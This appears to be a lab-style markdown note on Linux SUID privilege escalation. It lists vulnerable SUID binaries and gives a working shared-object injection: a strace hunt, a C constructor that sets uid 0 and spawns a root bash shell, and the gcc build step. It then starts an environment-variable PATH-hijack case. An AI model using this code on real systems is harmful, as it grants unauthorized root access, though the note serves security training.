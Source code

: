 ### Known exploits
/usr/local/bin/suid-so
/usr/local/bin/suid-env
/usr/local/bin/suid-env2
/usr/sbin/exim-4.84-3
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign

*As you can see `exim-4.48.3` is a suid having a service specified so we will search for the exploit and boom*

### Shared Object Injection
Hunt: `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
Output:
open("/lib/libc.so.6", O_RDONLY)        = 3
open("==/home/user/.config/libcalc.so==", O_RDONLY) = -1 ENOENT (No such file or directory)

*So we can see that libcalc.so cannt found so we will make it and then obtain shell*
1. Make libcalc.c
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}

```
2. Execute ==gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c==
3. Now again execute suid-so.

### Environment Variables
Hunt: ``strings /usr/local/bin/suid-env``
Output:
```
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```
One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.
